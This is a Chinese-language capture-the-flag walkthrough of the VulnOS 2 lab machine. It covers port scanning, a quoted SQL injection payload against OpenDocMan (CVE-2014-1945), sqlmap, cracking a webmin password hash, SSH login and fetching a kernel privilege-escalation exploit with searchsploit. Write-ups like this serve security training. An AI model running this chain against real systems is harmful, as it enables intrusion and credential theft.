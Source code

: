 # VulnOS 2

下载地址：https://download.vulnhub.com/vulnos/VulnOSv2.7z

> 使用VirtualBox进行打开，调整USB为1.0才可以启动
>
> ![image-20220608110526109](../../.gitbook/assets/image-20220608110526109.png)

## 实战操作

扫描到靶场IP：`192.168.32.4`

![image-20220608112207179](../../.gitbook/assets/image-20220608112207179.png)

扫描对外开放端口

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 23:31 EDT
Nmap scan report for 192.168.32.4
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
```

浏览器访问80端口

![image-20220608113431041](../../.gitbook/assets/image-20220608113431041.png)

跟随链接进入到一个公司的介绍页面

![image-20220608122933459](../../.gitbook/assets/image-20220608122933459.png)

来到documenttation页面，没有看到什么东西。

![image-20220608123025704](../../.gitbook/assets/image-20220608123025704.png)

全选页面就可以看到一个路径`/jabcd0cs`和登录密码`guest/guest`

![image-20220608123031066](../../.gitbook/assets/image-20220608123031066.png)

![image-20220608123342622](../../.gitbook/assets/image-20220608123342622.png)



登录进去之后

![image-20220608123409675](../../.gitbook/assets/image-20220608123409675.png)

寻找opendocman的利用漏洞

![image-20220608123641320](../../.gitbook/assets/image-20220608123641320.png)

找到SQL注入漏洞

```
1) SQL Injection in OpenDocMan: CVE-2014-1945

The vulnerability exists due to insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" script. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.

The exploitation example below displays version of the MySQL server:

http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9
```

![image-20220608123954047](../../.gitbook/assets/image-20220608123954047.png)

使用sqlmap进行SQL注入检测

![image-20220608125828265](../../.gitbook/assets/image-20220608125828265.png)

找到webmin用户和密码哈希值。

![image-20220608133000077](../../.gitbook/assets/image-20220608133000077.png)

解密密码哈希值

![image-20220608133136910](../../.gitbook/assets/image-20220608133136910.png)

直接SSH登录

![image-20220608133214918](../../.gitbook/assets/image-20220608133214918.png)

查看内核版本

```
webmin@VulnOSv2:~$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
webmin@VulnOSv2:~$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
webmin@VulnOSv2:~$ cat /etc/issue
### Welcome to VulnOSv2 ###

webmin@VulnOSv2:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

```

查看提权脚本

![image-20220608133528593](../../.gitbook/assets/image-20220608133528593.png)

复制EXP

```
┌──(root㉿kali)-[/tmp]
└─# searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines (466)

Copied to: /tmp/37292.c

```

提权成功

![image-20220608133746321](../../.gitbook/assets/image-20220608133746321.png)

获取flag.txt内容

![image-20220608133857965](../../.gitbook/assets/image-20220608133857965.png)
